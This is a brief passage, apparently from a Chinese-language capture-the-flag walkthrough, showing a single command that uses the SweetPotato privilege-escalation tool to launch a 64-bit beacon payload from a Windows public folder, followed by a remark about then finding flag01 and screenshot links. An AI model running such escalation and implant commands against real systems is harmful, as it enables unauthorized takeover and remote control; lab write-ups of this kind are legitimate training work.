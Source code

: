 ```bash
shell C:\\Users\\Public\\SweetPotato.exe -a C:\\Users\\Public\\beacon_x64.exe
```

[![](assets/1710465355-9658fb308f1effdb5a70965386ea024f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095339-addfff46-e1a5-1.png)

之后找到 flag01

[![](assets/1710465355-6d1ee11c672c74d977360a09c8aed681.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240314095344-b0db9f5c-e1a5-1.png)
